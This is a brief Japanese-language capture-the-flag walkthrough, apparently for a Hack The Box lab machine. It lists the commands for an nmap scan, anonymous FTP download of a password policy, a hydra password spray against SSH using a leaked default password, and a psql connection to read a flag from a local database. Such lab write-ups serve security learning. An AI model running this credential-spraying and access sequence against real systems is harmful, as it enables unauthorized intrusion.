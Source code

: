 # 1.Port Scan
ip=10.129.115.133

`nmap -sC -sV $ip`

![fe2b16b55b9f45992b9257128923effd.png](/_resources/fe2b16b55b9f45992b9257128923effd.png)

# 2.FTP Connect

`ftp $ip`

anonymousでloginする

name: anonymous

![dfa3aac7d0d864d24c50d60e46e342a0.png](/_resources/dfa3aac7d0d864d24c50d60e46e342a0.png)

mail_backupに2つのファイルがあることを確認

`cd mail_backup`

dir

get password_policy.pdf

get welcome_28112022

![74cd26d7f4e05405760aed3370dd5142.png](/_resources/74cd26d7f4e05405760aed3370dd5142.png)

入手したパスワードポリシーにデフォルトのパスワードが記載されている。

password_policy.pdf

![c2ef90d85b1f9303886116ec5b54909b.png](/_resources/c2ef90d85b1f9303886116ec5b54909b.png)


新しくチームに配属されたメンバーに対して送られたメールを入手

![2b3087a6548cae73a1de75c6e3c55351.png](/_resources/2b3087a6548cae73a1de75c6e3c55351.png)

# 3. Hydra

メールからusernames.txtを作成

`echo "optimus\n""albert\n""andreas\n""christine\n""maria\n" > usernames.txt`  

![5df5d011ebc8a24d3bc33297c035ee26.png](../_resources/5df5d011ebc8a24d3bc33297c035ee26.png)

ヒュドラでパスワードクラックを実施

`hydra -L usernames.txt -p 'funnel123#!#' 10.129.115.133 ssh`

`login: christine`
`password: funnel123#!#`

![702523a49102c3f11a7940de57f14eb2.png](/_resources/702523a49102c3f11a7940de57f14eb2.png)

sshで接続

![6369f256d375df2566d58e4b50b83ad2.png](/_resources/6369f256d375df2566d58e4b50b83ad2.png)

postgresqlをport5432を使用している事を確認

ss -tln 

![063e462b7df2fa0cd86f7d01a85e395d.png](/_resources/063e462b7df2fa0cd86f7d01a85e395d.png)

ss -tl

![aea4639f43ea6629388233d962707ec5.png](/_resources/aea4639f43ea6629388233d962707ec5.png)

ローカルマシンでポート1234を開けている事を確認

ss -tlpn

![00d5de00a7f3b4efa968ebd640a5eda1.png](/_resources/00d5de00a7f3b4efa968ebd640a5eda1.png)

# 4.Flag get

PostgreSQLに接続。flagを入手

`psql -U christine -h localhost -p 1234`

\l

\c secrets

\dt

SELECT * FROM flag;

![619651207f132284b358c3d00743a9a9.png](/_resources/619651207f132284b358c3d00743a9a9.png)
